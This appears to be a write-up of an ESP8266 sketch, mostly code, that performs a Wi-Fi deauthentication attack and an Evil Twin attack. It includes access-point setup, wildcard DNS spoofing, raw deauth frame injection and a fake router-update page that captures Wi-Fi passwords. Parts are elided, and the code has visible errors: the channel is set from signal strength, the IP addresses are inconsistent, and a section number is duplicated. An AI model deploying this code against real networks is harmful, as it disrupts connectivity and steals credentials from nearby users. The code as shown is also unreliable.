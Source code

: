 ESP8266 Wi-Fi Deauthentication and Evil Twin Attack Code

This code is a sketch for the ESP8266 microcontroller, implementing a Wi-Fi deauthentication attack and an Evil Twin attack. The script sets up a Wi-Fi access point that masquerades as a legitimate network to capture passwords, while also sending deauthentication packets to disrupt nearby networks. Below is a detailed explanation of the key components and functionality of the code.

1. Libraries and Definitions

#include <Arduino.h>
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <ESP8266HTTPClient.h>

ESP8266WiFi.h: Manages Wi-Fi connectivity for the ESP8266.
DNSServer.h: Handles DNS requests to spoof domain name resolutions.
ESP8266WebServer.h: Sets up a web server for the ESP8266.
ESP8266HTTPClient.h: Enables HTTP communications.

2. Network Structure

typedef struct {
  String ssid;
  uint8_t ch;
  uint8_t bssid[6];
} _Network;
_Network _networks[16];
_Network _selectedNetwork;

_Network: A structure holding information about a Wi-Fi network, including SSID, channel, and BSSID (MAC address).
_networks[16]: Array for storing up to 16 detected Wi-Fi networks.
_selectedNetwork: Stores the currently selected network for the Evil Twin attack.

3. DNS and Web Server Setup

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

Configures a DNS server to resolve all requests to a local IP, tricking connected clients into thinking they are reaching the real network.
Sets up a web server on port 80 to host the phishing webpage.
4. HTML Pages and Responses
The code defines HTML responses used to create phishing pages:

header(String t): Generates the HTML header.
footer(): Creates the footer of the webpage.
index(): Creates the form where users input their Wi-Fi password.
The phishing page mimics a "router firmware update" error page, prompting users to enter their Wi-Fi password.

5. Setup Function

void setup() {
  Serial.begin(115200);
  WiFi.mode(WIFI_AP_STA);
  wifi_promiscuous_enable(1);
  WiFi.softAP("Evil-TwiN", "devil2in");
  dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
  pinMode(EvilTwinPin, OUTPUT);
  digitalWrite(EvilTwinPin, HIGH);
  webServer.on("/", handleIndex);
  webServer.on("/result", handleResult);
  webServer.begin();
}

Configures the ESP8266 as an Access Point (AP) with the SSID "Evil-TwiN" and password "devil2in".
Starts a DNS server to redirect all requests to the local web server.
Sets up web routes to serve the phishing page and handle form submissions.

6. Scanning Networks

void performScan() {
  int n = WiFi.scanNetworks();
  clearArray();
  for (int i = 0; i < n && i < 16; ++i) {
    _Network network;
    network.ssid = WiFi.SSID(i);
    memcpy(network.bssid, WiFi.BSSID(i), 6);
    network.ch = WiFi.RSSI(i);
    _networks[i] = network;
  }
}

Scans for available Wi-Fi networks and stores their SSID, BSSID, and signal strength in the _networks array.

7. Handling User Interaction
handleIndex(): Serves the main phishing page, displaying the form for Wi-Fi password input.
handleResult(): Processes the submitted password, logging it if correct, or displaying an error page if incorrect.

9. Deauthentication Attack

if (deauthing_active && millis() - deauth_now >= 1000) {
  wifi_set_channel(_selectedNetwork.ch);
  uint8_t deauthPacket[26] = {0xC0, 0x00, ... };
  wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0);
}

Sends deauthentication packets to disconnect devices from the selected network.

9. Loop Function

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
  if (deauthing_active) {
    // Code for sending deauth packets
  }
}

Continuously handles DNS and web server requests.
Executes the deauthentication attack if activated.

Code Attribution
This code was developed by myself as part of a project exploring Wi-Fi security, specifically the deauthentication attack and Evil Twin attack. While I wrote the code, I also conducted research online to understand the technical aspects of these attacks and the ESP8266 Wi-Fi programming. Several resources, tutorials, and documentation were consulted during the development process to ensure proper implementation and optimization.


